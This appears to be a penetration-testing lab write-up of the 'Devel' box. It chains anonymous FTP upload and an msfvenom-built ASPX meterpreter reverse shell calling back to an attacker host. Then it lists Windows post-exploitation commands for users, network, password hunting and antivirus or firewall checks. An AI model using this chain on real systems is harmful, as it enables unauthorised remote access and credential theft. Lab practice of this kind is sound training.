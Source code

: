 ## Gaining a Foothold

### Devel (Using MSF conditions)  

**Initial Enum / RevShell Payload:**  
Nmap scan > iis server and ftp anonymous login identified > login ftp server and `PUT` test file sucessful > use msfvenom to generate a reverse tcp shell in aspx (since target is hosting iis)

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.05 LPORT=4444 -f aspx -o reverse.aspx`  

![image](https://github.com/user-attachments/assets/3db1aa08-39b4-45d2-afbe-01710f16b7cd)

**Listener with msfconsole multi handler:**  
msfconsole > use exploit/multi/handler > options > set payload windows/meterpreter/reverse_tcp > set LHOST ATTACKERIP > set LPORT 4444 > run

**Upload payload to iis:**  
ftp anonyomous login > `PUT reverse.aspx` > load http://victim/reverse.aspx (to trigger meterpreter reverse shell connection)  

---

#### System Enumeration  
now that we are a low level user, we repeat the cycle of information gathering, scanning enumeration and further exploitation.  

meterpreter: shell  
`systeminfo`  
`hostname`  
patching checks (windows management instrumentation command line + quick fix engineering) : `wmic qfe` or `wmic qfe get Caption,Description,HotFixID,InstalledOn` for a cleaner view  
driver enumeration: `wmic logicaldisk get caption,description,providername`

#### User Enumeration  
check hostname and user logged in`whoami`  
check current priviliges `whoami /priv`  
groups you belong to `whoami /groups`
users on the host `net user`  
enum found users `net user exampleuser`  
list all local group memberships `net localgroup`  
list all users in the administrator group `net localgroup administrators`  

#### Network Enumeration  
`ipconfig`  
`ipconfig /all`  
`arp -a`  
(check where else the host is connecting to) `route print`  
(where is the host connecting to and what ports are open, if new connections / ports are found only internally and not frem an external scan it could provide ideas such as the potential port forward,) `netstat -ano`  

#### Password Hunting  
(finds string of 'password' in the listed file types WITHIN the current directory) `findstr /si password *.txt *.ini *.config *.xml`  
<https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md>

#### Firewalls / AV Enumeration  
service check for windows defender `sc query windefend`  
service check for all services running on host `sc queryex type= service`  

may not work - check state of firewall `netsh advfirewall firewall dump`  
newer command - check state of firewall `netsh firewall show state`  
checks for firewall configurations for spcific ports / things that are open / configuration that may stand out - `netsh firewall show config`  

---

### Automated Tools
